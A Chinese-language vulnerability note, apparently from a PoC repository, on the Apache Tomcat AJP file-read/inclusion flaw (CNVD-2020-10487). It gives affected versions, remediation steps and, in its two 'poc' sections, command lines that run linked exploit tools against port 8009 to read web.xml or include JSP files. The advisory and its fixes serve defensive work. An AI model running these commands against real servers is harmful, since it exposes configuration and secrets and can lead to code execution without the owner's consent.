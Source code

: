 # Tomcat被曝出文件包含漏洞或导致RCE  

2020.02.21-CNVD-2020-10487-Tomcat-Ajp-lfi  
## 漏洞描述  
Apache Tomcat是由Apache软件基金会属下Jakarta项目开发的Servlet容器.默认情况下,Apache Tomcat会开启AJP连接器,方便与其他Web服务器通过AJP协议进行交互.但Apache Tomcat在AJP协议的实现上存在漏洞,导致攻击者可以通过发送恶意的AJP请求,可以读取或者包含Web应用根目录下的任意文件,如果配合文件上传任意格式文件，将可能导致任意代码执行(RCE).该漏洞利用AJP服务端口实现攻击,未开启AJP服务对外不受漏洞影响（tomcat默认将AJP服务开启并绑定至0.0.0.0/0）  
## 影响范围  
Apache Tomcat = 6  
7 <= Apache Tomcat < 7.0.100  
8 <= Apache Tomcat < 8.5.51  
9 <= Apache Tomcat < 9.0.31  
  
## poc1  
1.参考链接（https://github.com/0nise/CVE-2020-1938）  
任意文件读取  
`java -jar 1.jar com.threedr3am.bug.tomcat.ajp.FileRead 127.0.0.1 8009 file /index.jsp`  
文件包含  
```java -jar 1.jar com.threedr3am.bug.tomcat.ajp.FileRead 127.0.0.1 8009 jsp /index.jsp```  
截图如下  
![漏洞截图](https://github.com/bmjoker/poc/blob/master/Tomcat/1.png)    
  
## poc2  
2.参考链接（https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi）  
任意文件读取
```py -2 CNVD-2020-10487-Tomcat-Ajp-lfi.py 127.0.0.1 -p 8009 -f WEB-INF/web.xml```  
![漏洞截图](https://github.com/bmjoker/poc/blob/master/Tomcat/2.png)  
# 漏洞修复：  
* 临时禁用AJP协议端口，在conf/server.xm l配置文件中注释掉```<Connector port="8009" protocol="AJP/1.3"redirectPort="8443" />```   
* 配置ajp配置中的secretRequired跟secret属性来限制认证  
* 官方下载最新版下载地址：  
https://tomcat.apache.org/download-70.cgi  
https://tomcat.apache.org/download-80.cgi  
https://tomcat.apache.org/download-90.cgi  
https://github.com/apache/tomcat/releases  
## Reference  
https://github.com/threedr3am/learnjavabug  
https://www.cnvd.org.cn/flaw/show/CNVD-2020-10487  
https://mp.weixin.qq.com/s/GzqLkwlIQi_i3AVIXn59FQ  
https://mp.weixin.qq.com/s/GMAR-KqcKPZyLe_D_WBdXA  
https://github.com/threedr3am/learnjavabug/blob/1f601a919605704e8e67b89213f233b82fa537c7/tomcat/ajp-bug/src/main/java/com/threedr3am/bug/tomcat/ajp/FileRead.java  
https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi/blob/8bd38f4cf22331ecf4e48096a78c5931509c26be/CNVD-2020-10487-Tomcat-Ajp-lfi.py

